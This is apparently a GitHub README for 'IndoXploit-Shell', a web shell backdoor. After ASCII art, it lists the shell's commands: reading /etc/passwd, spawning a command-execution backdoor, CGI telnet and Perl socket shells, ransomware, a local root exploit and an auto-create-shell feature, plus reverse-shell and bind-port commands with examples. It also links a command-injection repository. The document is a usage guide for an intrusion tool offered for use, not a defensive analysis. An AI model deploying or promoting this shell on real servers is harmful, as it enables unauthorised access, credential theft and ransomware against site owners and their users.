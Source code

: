 ## IndoXploit-Shell 
<pre>

This  
  Nyan 
    Maru

                       _____|\
                  _.--| LOL |:
                 <____|.----||
                        .---''---,
                         ;..__..'    _...
                       ,'/  ;|/..--''    \
                     ,'_/.-/':            :
                _..-'''/  /  |  \    \   _|/|
               \      /-./_ \;   \    \,;'   \
               ,\    / \:  `:\    \   //    `:`.
             ,'  \  /-._;   | :    : ::    ,.   .
           ,'     ::   /`-._| |    | || ' :  `.`.)
        _,'       |;._:: |  | |    | `|   :    `'
      ,'   `.     /   |`-:_ ; |    |  |  : \
      `--.   )   /|-._:    :          |   \ \
         /  /   :_|   ;`-._;   __..--';    : :
        /  (    ;|;-./_  _/.-:'o |   /     ' |
       /  , \._/_/_./--''/_|:|___|_,'        |
      :  /   `'-'--'----'---------'          |
      | :     O ._O   O_. O ._O   O_.      ; ;
      : `.      //    //    //    //     ,' /
    ~~~`.______//____//____//____//_______,'~
              //    //~   //    //
       ~~   _//   _//   _// ~ _//     ~
     ~     / /   / /   / /   / /  ~      ~~
          ~~~   ~~~   ~~~   ~~~[ github.com/Flux10n ]

</pre>
                                           


## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole (execute command backdoor)
spawn cgitelnet1 (cgitelnet shell 1)
spawn cgitelnet2 (cgitelnet shell 2)
spawn cgipy (cgi python)
spawn soc (socket perl)
spawn rans (ransomware)
spawn adminer (adminer databese)
spawn LRE (local root exploit)
spawn fm (file manager)
spawn acs (auto create shell)
spawn phpinfo (file system info)
spawn func (php version)
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

## Command prompt (CMD)
[https://github.com/flux10n/command-injection](https://github.com/flux10n/command-injection)
